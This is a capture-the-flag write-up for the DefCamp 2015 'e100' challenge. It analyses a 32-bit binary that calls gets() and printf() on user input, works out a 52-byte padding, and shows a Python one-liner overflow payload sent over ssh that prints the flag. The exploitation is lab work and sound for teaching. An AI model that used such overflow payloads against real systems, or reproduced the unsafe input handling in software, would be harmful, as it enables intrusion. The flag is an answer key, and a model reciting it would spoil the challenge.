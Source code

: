 [](ctf=defcamp-quals-2015)
[](type=exploit)
[](tags=buffer-overflow)

We are given a [binary](../e100.bin) and a [key](../id_rsa_e100).

```bash
$  file e100.bin 
e100.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4410355efef2e99ac54e4028dba1b3e40d055fee, stripped
```
Also loading in gdb-peda.
```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
Good. Loading the binary in [Hopper](http://www.hopperapp.com/) and decompiling.
```c
function sub_80484fd {
    var_C = *0x14;
    printf("Enter password: ");
    gets(var_2C);
    if (arg0 == 0xbadb0169) {
            system("cat flag");
    }
    else {
            for (var_30 = 0x0; var_30 < strlen(var_2C); var_30 = var_30 + 0x1) {
                    *(int8_t *)(var_30 + var_2C) = arg0 ^ *(int8_t *)(var_30 + var_2C) & 0xff;
            }
            printf("Your new secure password is: ");
            printf(var_2C);
    }
    eax = var_C ^ *0x14;
    COND = eax == 0x0;
    if (!COND) {
            eax = __stack_chk_fail();
    }
    return eax;
}
```
So a gets and a static hardcoded check. Basic buffer overflow!!

```bash
   0x804851b:	lea    eax,[ebp-0x2c]
   0x804851e:	mov    DWORD PTR [esp],eax
=> 0x8048521:	call   0x80483a0 <gets@plt>
   0x8048526:	cmp    DWORD PTR [ebp+0x8],0xbadb0169
```
This gives us padding = 0x2c+0x8 = 52
Now the final blow.
```bash
$ python -c "print 'A'*52+'\xba\xdb\x01\x69'[::-1]" | ssh -i id_rsa_e100 dctf@10.13.37.6
Pseudo-terminal will not be allocated because stdin is not a terminal.
DCTF{3671bacdb5ea5bc26982df7da6de196e}
Enter password: *** stack smashing detected ***: /home/dctf/e100 terminated
```

Flag:
>DCTF{3671bacdb5ea5bc26982df7da6de196e}